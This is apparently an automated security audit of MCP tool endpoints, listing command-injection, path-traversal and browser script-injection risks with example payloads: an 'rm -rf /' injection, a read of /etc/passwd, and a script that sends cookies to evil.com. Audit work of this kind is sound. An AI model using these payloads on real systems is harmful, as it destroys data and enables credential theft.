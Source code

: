 # MCP Function Vulnerability Security Audit

## Executive Summary

**Audit Date**: 2025-09-24
**Auditor**: MCPVulnerabilityScanner
**Scope**: New MCP endpoints and function security analysis
**Overall Risk Level**: HIGH

## MCP Function Security Assessment

### 1. MCP Claude Flow Functions Analysis

**Functions Audited**: 70+ MCP endpoints from multiple servers
- `mcp__claude-flow__*` (Primary coordination functions)
- `mcp__ruv-swarm__*` (Enhanced coordination functions)
- `mcp__flow-nexus__*` (Cloud-based functions)
- `mcp__playwright__*` (Browser automation functions)

### 2. Input Validation Security ❌ CRITICAL VULNERABILITIES

**Finding**: Multiple MCP functions lack proper input validation and sanitization.

**Vulnerable Function Examples**:

#### A. Command Injection Vulnerabilities
```javascript
// mcp__claude-flow__terminal_execute - HIGH RISK
{
  "command": "rm -rf /; echo 'pwned'",  // Potential command injection
  "args": ["--recursive", "--force"]
}
```

**Risk**: Direct command execution without validation could enable:
- System compromise through command injection
- File system destruction
- Privilege escalation
- Data exfiltration

#### B. Path Traversal Vulnerabilities
```javascript
// File-related MCP functions - MEDIUM RISK
{
  "path": "../../../etc/passwd",     // Path traversal attempt
  "action": "read"
}
```

**Risk**: Unauthorized file system access

#### C. Script Injection in Browser Functions
```javascript
// mcp__playwright__browser_evaluate - HIGH RISK
{
  "function": "() => { window.location = 'http://evil.com/steal?data=' + document.cookie; }"
}
```
